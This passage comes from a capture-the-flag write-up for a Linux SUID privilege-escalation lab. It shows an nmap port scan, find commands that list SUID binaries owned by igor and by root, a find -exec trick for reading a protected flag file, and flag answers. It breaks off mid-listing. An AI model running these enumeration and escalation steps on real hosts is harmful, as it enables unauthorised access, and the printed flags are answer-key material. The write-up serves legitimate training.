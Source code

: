     **Answer:** interesting.file

## Task 13 - [Day 8] SUID Shenanigans
1. What port is SSH running on?<br>
    ```
    $ nmap -sV 10.10.169.232 -p-
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-22 20:28 +07
    Stats: 0:09:57 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 63.85% done; ETC: 20:43 (0:05:39 remaining)
    Nmap scan report for 10.10.169.232
    Host is up (0.21s latency).
    Not shown: 65534 closed ports
    PORT      STATE SERVICE VERSION
    65534/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 1060.63 seconds
    ```
    **Answer:** 65534

1. Find and run a file as igor. Read the file /home/igor/flag1.txt<br>
    We need to scan the whole file system to find all files with user igor and the SUID bit set.<br>
    ```
    $ find / -user igor -perm -4000 -exec ls -ldb {} \;
    ```
    ![](images/28.png)<br>
    Navigate to `/home/igor`, find and cat flag1.txt.<br>
    ```
    $ cd /home/igor/ && find flag1.txt -exec cat flag1.txt \;
    THM{d3f0708bdd9accda7f937d013eaf2cd8}
    ```
    **Answer:** THM{d3f0708bdd9accda7f937d013eaf2cd8}

1. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?<br>
    Change command in previous question from `igor` to `root`.<br>
    ```
    $ find / -user root -perm -4000 -print 2>/dev/null 
    /bin/ping
    /bin/umount
    /bin/ping6
    /bin/su
    /bin/fusermount
    /bin/mount
    /snap/core/7396/bin/mount
    /snap/core/7396/bin/ping
    /snap/core/7396/bin/ping6
    /snap/core/7396/bin/su
    /snap/core/7396/bin/umount
    /snap/core/7396/usr/bin/chfn
    /snap/core/7396/usr/bin/chsh
    /snap/core/7396/usr/bin/gpasswd
    /snap/core/7396/usr/bin/newgrp
    /snap/core/7396/usr/bin/passwd
    /snap/core/7396/usr/bin/sudo
    /snap/core/7396/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /snap/core/7396/usr/lib/openssh/ssh-keysign
    /snap/core/7396/usr/lib/snapd/snap-confine
    /snap/core/7396/usr/sbin/pppd